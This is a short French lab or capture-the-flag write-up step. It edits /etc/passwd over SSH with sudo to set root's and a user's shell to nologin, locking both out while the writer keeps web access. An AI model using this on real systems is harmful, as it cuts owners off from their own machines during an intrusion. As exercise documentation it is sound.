Pour être certain que l'utilisateur ne puisse pas se connecter, il faut modifier les entrées dans le fichier `/etc/passwd` du shell par défaut à `/usr/sbin/nologin`.

Pour celà, il est possible de se connecter en ssh et de faire un `sudo su` pour modifier le fichier.

```console
ssh marlinspike@192.168.58.129
sudo su
nano /etc/passwd
```

Il suffit donc de changer les lignes 

```
root:x:0:0:root:/root:/bin/bash
marlinspike:x:1000:1000:marlinspike,,,:/home/marlinspike:/bin/bash
```

par

```
root:x:0:0:root:/root:/usr/sbin/nologin
marlinspike:x:1000:1000:marlinspike,,,:/home/marlinspike:/usr/sbin/nologin
```

Si nous essayons maintenant de nous connecter en tant que root, le message d'erreur suivant apparait.

```console
su root
This account is currently not available.
```

*Note : il est toujours possible pour nous de nous connecter en passant par le web*

> **Le point 3 est donc validé**